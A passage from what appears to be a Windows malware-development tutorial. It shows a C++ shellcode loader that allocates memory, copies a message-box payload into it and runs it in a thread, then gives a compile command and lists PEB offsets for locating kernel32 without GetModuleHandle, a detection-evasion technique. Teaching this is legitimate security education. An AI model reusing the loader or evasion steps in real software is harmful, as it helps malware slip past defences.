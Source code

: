 ```cpp
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";


int main() {
  HMODULE hk32 = GetModuleHandle("kernel32.dll");
  pVirtualAlloc = GetProcAddress(hk32, "VirtualAlloc");
  PVOID lb = pVirtualAlloc(0, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = CreateThread(0, 0, (PTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
  WaitForSingleObject(th, -1);
}
```

So this code contains very basic logic for executing payload. In this case, for simplicity, it's use "meow-meow" messagebox payload.    

Let's compile it:

```bash
x86_64-w64-mingw32-g++ meow.cpp -o meow.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection](/assets/images/47/2022-04-04_18-51.png){:class="img-responsive"}    

and run:    

![injection](/assets/images/47/2022-04-05_01-46.png){:class="img-responsive"}    

We used `GetModuleHandle` function to locate `kernel32.dll` in memory. It's possible to go around this by finding library location in the PEB.    

### assembly way :)

In the one of the [previous](/tutorial/2021/10/30/windows-shellcoding-2.html) posts I wrote about `TEB` and `PEB` structures and I found `kernel32` via asm. The following is obtained:    

1. offset to the `PEB` struct is `0x030`
2. offset to `LDR` within `PEB` is `0x00c`
3. offset to `InMemoryOrderModuleList` is `0x014`
4. 1st loaded module is our `.exe`
5. 2nd loaded module is `ntdll.dll`
6. 3rd loaded module is `kernel32.dll`
7. 4th loaded module is `kernelbase.dll`
